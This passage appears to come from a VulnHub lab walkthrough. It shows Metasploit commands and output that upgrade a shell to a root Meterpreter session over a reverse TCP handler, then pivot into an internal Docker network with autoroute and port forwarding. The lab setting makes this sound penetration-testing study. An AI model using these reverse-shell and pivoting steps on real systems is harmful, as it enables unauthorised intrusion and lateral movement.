 
Next, background the shell and upgrade it to a meterpreter shell
`msf5 post(multi/manage/shell_to_meterpreter) &gt; options``Module options (post/multi/manage/shell_to_meterpreter):``Name     Current Setting  Required  Description  
   ----     ---------------  --------  -----------  
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection  
   LHOST    192.168.1.10     no        IP of host that will receive the connection from the payload (Will try to auto detect).  
   LPORT    4433             yes       Port for payload to connect to.  
   SESSION  1                yes       The session to run this module on.``msf5 post(multi/manage/shell_to_meterpreter) &gt; run``[*] Upgrading session ID: 1  
[*] Starting exploit/multi/handler  
[*] Started reverse TCP handler on 192.168.1.10:4433   
[*] Sending stage (980808 bytes) to 192.168.1.12  
[*] Meterpreter session 2 opened (192.168.1.10:4433 -&gt; 192.168.1.12:35888) at 2020-09-26 11:33:25 +0100  
[*] Command stager progress: 100.00% (773/773 bytes)  
[*] Post module execution completed  
msf5 post(multi/manage/shell_to_meterpreter) &gt; sessions -i``Active sessions  
===============``Id  Name  Type                   Information                                                       Connection  
  --  ----  ----                   -----------                                                       ----------  
  1         shell sparc/bsd        #                                                                 192.168.1.10:5555 -&gt; 192.168.1.12:32832 (192.168.1.12)  
  2         meterpreter x86/linux  no-user @ MailServer (uid=0, gid=0, euid=0, egid=0) @ 172.17.0.5  192.168.1.10:4433 -&gt; 192.168.1.12:35888 (172.17.0.5)``msf5 post(multi/manage/shell_to_meterpreter) &gt; sessions -i 2  
[*] Starting interaction with 2...``meterpreter &gt;`

Set up autoroute and port forwarding .
`run autoroute -s 172.17.0.1/16  
portfwd add -l 8888 -p 80 -r 172.17.0.2`

run autoroute -s &lt;target IP /netmask&gt;

portfwd add -l &lt;port to listen to on local machine&gt; -p &lt;remote port to connect to&gt; -r &lt;target IP&gt;

Access the webserver on remote machine

![image](/posts/2020-09-26_nully-cybersecurity1vulnuhb/images/12.png#layoutTextWidth)
